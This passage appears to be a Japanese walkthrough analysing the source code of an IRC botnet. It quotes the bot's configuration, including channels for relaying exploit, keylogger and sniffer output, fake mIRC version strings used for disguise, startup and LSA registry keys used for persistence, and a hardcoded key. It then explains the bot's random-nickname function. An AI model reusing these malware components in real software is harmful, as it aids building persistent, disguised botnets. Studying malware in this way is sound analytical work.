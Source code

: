 char modeonconn[] = "-x+B";			// /MODE 一つ以上のモードにできて+/-の両方が含まれる
char exploitchan[] = "#n";			// REDIRECT # EXPLOIT MESSAGE  - CHANNEL
char keylogchan[] =  "#n"; 			// REDIRECT # KEYLOG MESSAGE
char psniffchan[] = "#n";			// REDIRECT # PSNIFF MESSAGE 

char *authost[] = {				// 接続先チャンネルのオペレータ権限を認証(直接指定も出来る)
	"*@*",
};

char *versionlist[] = {				// 作者でない誰かがバージョンを求めたときに応答
	"mIRC v6.03 Khaled Mardam-Bey",		// mIRC開発者:Khaled Mardam-Beyという名前
	"mIRC v6.10 Khaled Mardam-Bey",
	"mIRC v6.12 Khaled Mardam-Bey",
	"mIRC v6.14 Khaled Mardam-Bey"
};

// レジストリエントリ：スタートアップ二種, セキュリティ二種
char regkey1[]="Software\\Microsoft\\Windows\\CurrentVersion\\Run";
char regkey2[]="Software\\Microsoft\\Windows\\CurrentVersion\\RunServices";
char regkey3[]="Software\\Microsoft\\OLE";
char regkey4[]="SYSTEM\\CurrentControlSet\\Control\\Lsa";

#endif

#ifdef PLAIN_CRYPT		  // Encrypted Password:暗号化パスワード(kerberos)
char key[16] = "2poiwsfpf3213ew"; // CHANGE THIS!!! hmmm..Do I even need this now?
#endif
-----


■0x07.) maxrand = 6 ってなんだ

　名前から推測できない幾つかの変数はソースファイルを読んで処理を紐解きま
す。まずこの変数名をダブルクリックにより選択してすべての参照の検索をかけ
てみます。すると以下の行がシンボルの検索結果として表示されるのでこの変数
がrndnick.cppに使われているあたりIRCのニックネームの処理かと予測がつくの
です。

-----
rndnick.cpp(25): for (int i=0;i < maxrand;i++)
-----

　検索結果をダブルクリックして参照先に遷移すると以下の関数が定義されてい
ます。random_nickname_const() の略語のようですからやはりニックネーム関係
です。

-----
char *rndnickconst(char *strbuf)
{
	srand(GetTickCount());

	_snprintf(strbuf, MAXNICKLEN, "%s", nickconst);

    for (int i=0;i < maxrand;i++) 
		_snprintf(strbuf, MAXNICKLEN, "%s%i", strbuf, rand()%10);
  
	return (strbuf); 
}
-----
